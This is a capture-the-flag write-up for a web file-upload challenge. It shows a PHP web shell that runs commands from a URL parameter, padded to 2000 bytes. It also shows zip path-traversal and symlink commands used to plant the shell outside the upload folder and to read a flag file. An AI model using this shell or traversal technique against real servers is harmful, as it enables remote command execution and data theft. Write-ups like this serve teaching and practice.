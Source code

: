 # Super Secure Siberian Vault (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is another file upload challenge where we can upload files.

![alt text](2.png "Chall")


* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.

![alt text](3.png "Chall")

Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

    According to @serega6531, it's possible to have a filesize less than 2000 bytes.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.

![alt text](4.png "Chall")

Maybe we can write to that directory.

![alt text](5.png "Chall")

Exploit script available here: [win.sh](win.sh)
